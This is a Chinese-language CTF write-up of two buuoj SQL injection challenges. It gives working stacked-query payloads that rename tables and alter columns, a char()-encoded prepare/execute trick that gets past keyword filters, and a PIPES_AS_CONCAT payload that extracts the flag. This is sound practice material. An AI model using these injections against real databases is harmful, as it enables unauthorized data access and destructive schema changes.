 # 1.[强网杯 2019]随便注入

来源：buuoj

## 方法1 ： 别名+堆叠注入

解题思路：

1. 判断注入位置是字符型还是整形。输入单引号，发现有错误,是字符型

2. 查看数据库

   ```
   1';show databases;#
   ```

   ![image-20210719103447286](sql%E6%B3%A8%E5%85%A5.assets/image-20210719103447286.png)

3. 查看表，和查看表结构

   ```
   0';show tables;#
   0';desc `1919810931114514`;# 
   //	反引号不能去掉。不然mysql不会认为这是一个表，而是认为你输入了奇怪的数字
   
   ```

   ![image-20210719103557271](sql%E6%B3%A8%E5%85%A5.assets/image-20210719103557271.png)

   ![image-20210719103610188](sql%E6%B3%A8%E5%85%A5.assets/image-20210719103610188.png)

4. select 查数据，发现有过滤

![image-20210719103714100](sql%E6%B3%A8%E5%85%A5.assets/image-20210719103714100.png)

5. 猜测后端查询语句

   ```
   select id, data from words where id = 
   ```

6. 改别名。将需要查询的表改成words。表里的字段改成id，data。内容不变

   ```
   //改表别名
   0';rename table words to test;rename table `1919810931114514` to words;
   //改表字段名
   alter table words change flag id varchar(100);
   
   //一定要合起来一起改。不然改了表名没改字段名，查询时就会出错。后面就改不了字段名
   
   //最终payload;
   0';rename table words to test;rename table `1919810931114514` to words;alter table words change flag id varchar(100);
   ```

7. 查询

   ```
   1' or 1=1#  //爆出全部数据
   ```

   ![image-20210719112200300](sql%E6%B3%A8%E5%85%A5.assets/image-20210719112200300.png)



## 方法2：预处理 + 编译

预处理介绍

1. 设置预处理语句：

   ```sql
   prepare name1 from 'select * from mysql.user';
   #名name1，执行的语句: select * from mysql.user
   ```

![image-20210719112243807](sql%E6%B3%A8%E5%85%A5.assets/image-20210719112243807.png)

2. 执行预处理语句: 

   ```sql
   execute name1;
   ```

![image-20210719112409783](sql%E6%B3%A8%E5%85%A5.assets/image-20210719112409783.png)

3. 查版本

   ```sql
   1';prepare name from concat(char(115,101,108,101,99,116), ' version()');execute name;#
   
   #char(115,101,108,101,99,116) 是字符串 'select' 的ascii码
   
   #这一段代码相当于  select version()
   ```

   ![image-20210719112615532](sql%E6%B3%A8%E5%85%A5.assets/image-20210719112615532.png)

4. 查flag

   ```sql
   1';prepare name from concat(char(115,101,108,101,99,116), ' flag from `1919810931114514`');execute name;#
   
   #相当于 select flag from `1919810931114514`
   ```

   ![image-20210719112647841](sql%E6%B3%A8%E5%85%A5.assets/image-20210719112647841.png)



# 2.[SUCTF 2019]EasySQL1

来源：buuoj

思路：

1. 进入网站，有个框框，输入数字1返回的内容和之前堆叠注入那题很像。马上用堆叠注入

   ![image-20210719112801566](sql%E6%B3%A8%E5%85%A5.assets/image-20210719112801566.png)

2. 查表

   ![image-20210719112814331](sql%E6%B3%A8%E5%85%A5.assets/image-20210719112814331.png)

3. 查字段，发现有过滤。经过检查过滤了flag, from等关键词

   ![image-20210719112830210](sql%E6%B3%A8%E5%85%A5.assets/image-20210719112830210.png)

4. from被过滤，预处理也不行了。最后查网上发现这里的源码可能为

   ```sql
   select $_POST[‘query’] || flag from Flag
   ```



## 方法1：sql_mode=PIPES_AS_CONCAT



将||当成字符串连接符

```sql
payload: 1;set sql_mode=PIPES_AS_CONCAT;select 1
#拼接后的查询语句： select 1||flag from Flag
```

select 1 from Flag 结果是1
select flag from Flag 结果是 [flag]

||令它们结果连接，就是 1[flag]

![image-20210719113111915](sql%E6%B3%A8%E5%85%A5.assets/image-20210719113111915.png)



## 方法2：

将||当成逻辑运算符

```sql
payload: *,1
#拼接后的语句: select *,1||flag from Flag
#相当于
#select * from Flag
#select 1||flag from Flag
```

![image-20210719113301160](sql%E6%B3%A8%E5%85%A5.assets/image-20210719113301160.png)

为什么后面会返回1？

比如下面

![image-20210719113324945](sql%E6%B3%A8%E5%85%A5.assets/image-20210719113324945.png)

![image-20210719113336378](sql%E6%B3%A8%E5%85%A5.assets/image-20210719113336378.png)

![image-20210719113826982](sql%E6%B3%A8%E5%85%A5.assets/image-20210719113826982.png)

![image-20210719113511860](sql%E6%B3%A8%E5%85%A5.assets/image-20210719113511860.png)



最后我测试了几下，发现：

成功运行的条件是：

```sql
数字||存在的字段
```